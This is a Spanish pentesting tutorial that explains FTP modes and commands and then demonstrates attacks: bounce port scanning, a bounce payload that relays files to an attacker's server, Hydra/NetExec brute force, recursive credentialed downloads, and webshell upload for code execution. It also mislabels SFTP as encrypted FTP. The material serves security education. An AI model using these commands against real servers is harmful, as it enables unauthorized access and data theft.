 ```yaml
---
title: "Introducción a FTP"
summary: "Este artículo presenta el protocolo FTP (File Transport Protocol), un protocolo cliente-servidor usado para la transferencia de archivos a través de una red. Este artículo explica la arquitectura FTP, canales de comunicación, los comandos y los riesgos de seguridad."
date: 2024-07-24
tag:
    - Ciberseguridad
    - Pentesting
    - FTP
---
```


El protocolo FTP (File Transfer Protocol) es un protocolo usado para la transferencia de archivos entre ordenadores en red, este protocolo presenta arquitectura cliente-servidor usándose un servidor para servir archivos que pueden ser accedidos por N clientes. Por defecto, la información se transmite en texto plano, aunque existe una versión cifrada del mismo llamada SFTP (Secure File Transfer Protocol).

<!-- more -->

Si bien existen implementaciones con interfaz gráfica, en este artículo haremos uso de la herramienta de línea de comandos de FTP, la cual nos da bastante flexibilidad a la hora de trabajar con el protocolo. En artículos posteriores exploraremos las principales implementaciones de cliente y servidor, aunque en este nos centraremos en explicar los conceptos básicos del protocolo, como trabajar con él y como aprovechar algunas malas configuraciones.


## Teoría

### Canales de comunicación

Para el funcionamiento de FTP se requieren de dos canales de comunicación, uno para el envío de comandos y otro para los datos.

### Modos de conexión

#### Activo

Es el modo de conexión predeterminado para las conexiones FTP, en él ocurren dos eventos:

- Se establece un canal de comandos en la conexión con el servidor entre el puerto de comandos del servidor (21 por defecto) y un puerto superior a 1023 en el lado cliente (nos referiremos a este como P).
- Una vez establecida la conexión de datos se intenta abrir una conexión desde el puerto de datos del servidor (20 por defecto) al puerto P+1 del cliente.

!!! nota

    El modo activo puede presentar problemas con los firewalls del cliente debido a que intenta crear una conexión directa a un puerto del lado cliente, lo cual puede ser bloqueado por ciertos firewalls.


#### Pasivo

Este modo surge como solución al problema de los firewalls del cliente, aquí se modifica el flujo de trabajo de modo que tanto la conexión de datos como la conexión del cliente se inician desde el cliente, podemos desglosarlo en dos eventos.

- Se establece un canal de comandos en la conexión con el servidor entre el puerto de comandos del servidor (21 por defecto) y un puerto superior a 1023 en el lado cliente (nos referiremos a este como P).
- Una vez establecida la conexión de datos se abre una conexión de datos desde el puerto P+1 del cliente a un puerto del canal de datos del servidor, este proceso se repite para cada transferencia de archivos ocupando un puerto distinto del servidor en cada conexión (esto puede ser configurado en la mayoría de los software del lado servidor) .

!!! nota

    El modo pasivo requiere de la apertura de un rango de puertos en el firewall, esto puede generar algunos problemas de seguridad si esta apertura de puertos no se configura de manera correcta.


## Comandos FTP

```bash
CWD  -> Cambia el directorio actual por el especificado
DELE -> Elimina el archivo especificado
EPRT -> Establecer un socket para la conexión de datos
LIST -> Lista los archivos en el directorio actual
PASV -> Cambia el modo a pasivo
PWD  -> Muestra el directorio actual 
RETR -> Descarga el archivo especificado
```

## Anonymous login

Existe una configuración de FTP que permite el uso de un login para compartir ficheros para cualquier usuario que lo requiera, en caso de que esta configuración este habilitada un usuario podría usar anonymous como nombre de inicio de sesión y cualquier contraseña acceder al servidor como un usuario con bajos privilegios, aunque en ciertos casos esto puede llevar a comprometer el sistema entero.

## FTP Bounce port scan

Es posible abusar de los comandos PORT y ERPT para realizar un escaneo de puertos abiertos mediante un servidor FTP.

### Nmap

```bash
nmap -b <name>:<pass>@<ftp_server> <victim>
```

### Hand-made

Una vez conectado podemos realizar el escaneo de puertos mediante los comandos PORT y ERPT seguidos de un comando LIST .

Aquí tenemos un ejemplo para escanear el puerto 9091 del host 10.10.10.14

```bash
PORT 10,10,10,14,0,9091
EPRT |2|10.10.10.14|9091|

LIST
```

Si la respuesta es un 150 el puerto está abierto, en caso de recibir un 415 el puerto está cerrado.

## FTP Bounce file get

Este ataque permite a un atacante descargar ficheros de un servidor FTP no accesible por el atacante, pero al que sí puede llegar un servidor FTP accesible por el atacante

![Net Diagram](../../../assets/posts/2024/11/14/net_diagram.png)

Este ataque tiene los siguientes prerequisitos:

- Credenciales válidas para External FTP.
- Credenciales válidas para Internal FTP.
- Acceso de escritura para External FTP.
- Permisos de ejecución del comando PORT tanto en External como en Internal.

Primero que nada desplegaremos un servidor FTP en la máquina del atacante, este servidor tiene que soportar el modo pasivo.

Una vez desplegado abriremos una conexión pasiva con el comando PASV y le diremos que la guarde con STOR output.ext .

Ahora crearemos un archivo con los comandos que queremos lanzar contra el segundo servidor, un ejemplo seria el siguiente:

```bash
user ftp   # Usuario para el servidor internal
pass password # Password para el servidor internal
cwd /DIRECTORY
type i
port F,F,F,F,X,X  #Nuestro puerto pasivo
retr file.ext
quit
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
```

Ahora lo subimos con PUT y desde el servidor externo ejecutamos los siguientes comandos:

```bash
put payload
quote "port C,C,C,C,0,21" # IP del servidor interno
quote "retr payload"
```

Tras esto tendremos el archivo file.ext en nuestro servidor como output.ext

## Ataque por fuerza bruta

Muchos de los servidores FTP no presentan protección contra ataques por fuerza bruta. Teniendo un usuario o una lista de ellos podemos llevar a cabo un ataque de fuerza bruta con diferentes credenciales obtenidas de diversas fuentes, si bien existen varias herramientas para este fin, las dos más comunes son NetExec e Hydra. 

### NetExec

```bash
nxc ftp IP -u userfile -p passwordfile
```

### Hydra

```bash
hydra -L userfile -P passwordfile ftp://IP
```

## Backup sorpresa

Esto no es un ataque per se, pero es bastante útil, ya que nos permite descargar todos los archivos accesibles del servidor mediante un solo comando.

```bash
wget -r ftp://IP/dir/* --ftp-user=username --ftp-password=password
```

## FTP file upload to RCE

En determinadas circunstancias, el permiso para subir ficheros al servidor junto a otras malas configuraciones puede llevar a la obtención de ejecución remota de comandos en el servidor.

El caso más común es la posibilidad de subir ficheros que van a ser luego servidos por un servidor web, donde podríamos subir una webshell interpretable por el servidor para lograr obtener ejecución de comandos.

## Sniffing credentials

Dado que FTP funciona por defecto en texto plano, es posible para un atacante en la misma red usar un sniffer y capturar tanto las credenciales como la conversación FTP.


En el próximo artículo de esta serie sobre FTP hablaremos sobre fallos comunes de implementación y algunas vulnerabilidades conocidas de algunas implementaciones del protocolo.

---
